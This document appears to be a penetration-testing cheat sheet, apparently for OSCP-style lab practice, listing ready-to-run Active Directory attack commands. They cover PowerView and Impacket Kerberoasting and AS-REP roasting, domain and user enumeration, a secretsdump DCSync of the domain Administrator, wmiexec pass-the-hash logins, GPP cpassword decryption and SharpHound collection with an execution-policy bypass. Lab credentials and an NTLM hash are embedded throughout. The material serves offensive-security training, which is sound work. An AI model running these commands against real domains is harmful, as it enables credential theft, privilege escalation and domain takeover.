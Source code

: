 ```PowerShell
# Request Kerberos service tickets TGS for all users with non-null SPNs
Get-DomainUser -SPN | Get-DomainSPNTicket -OutputFormat Hashcat
# Request a Kerberos service ticket TGS for the specified SPN (has Rubeus and impacket equivalents)
Get-DomainSPNTicket -SPN "HTTP/web.testlab.local"
```
---
### Impacket
```bash
impacket-GetADUsers -all "corp.com/meg:VimForPowerShell123\!" -dc-ip 192.168.176.70 # Enumerate domain users
impacket-net "corp.com/meg:VimForPowerShell123\!@192.168.176.70" user # Enumerate local users (or domain users if targeting DC)
impacket-net "corp.com/meg:VimForPowerShell123\!@192.168.176.70" group # Enumerate local groups (or domain groups if targeting DC)

impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/beet # Enumerate AS-REP roastable users; equivalent to PowerView's "Get-DomainUser -PreauthNotRequired". Rubeus has an equivalent.

sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/beet -o kerberoast.hashes # Kerberoast. If this throws error "KRB_AP_ERR_SKEW(Clock skew too great)", we need to sync the time of the Kali machine with the domain controller. Use `ntpdate` or `rdate`. Rubeus has an equivalent.

# User must be in at least one of: "Domain Admins", "Enterprise Admins", or "Administrators". IP is for DC we are targeting. Mimikatz "lsadump::dcsync" is the equivalent.
impacket-secretsdump -just-dc-user Administrator corp.com/jebadmin:"Password2023\!"@192.168.50.70

impacket-wmiexec -hashes :28e7a47a6f9f66b97b1bae4178747493 bob@172.16.211.11
impacket-wmiexec 'beyond.com/john:dqsTwTpZPn#nL@192.168.211.242'
```
---
### Sysinternals
```PowerShell
.\PsLoggedon.exe \\\\<target> # Enumerate currently logged on users
```
---
### Group Policy Preferences (decryption)
```bash
gpp-decrypt # decrypt local "cpassword" passwords on Kali
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```

---
### SharpHound / BloodHound
```PowerShell
Import-Module .\Sharphound.ps1

Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\stephanie\Desktop\ -OutputPrefix "oscp"

# Alternatively
powershell -ExecutionPolicy Bypass -Command "& {Import-Module .\SharpHound.ps1; Invoke-BloodHound -CollectionMethod All -OutputDirectory 'C:\Users\Public' -OutputPrefix 'corp audit'}"

# EXE
.\SharpHound.exe --CollectionMethods All --OutputDirectory "C:\Users\bobby\Documents" --OutputPrefix "oscp"
```
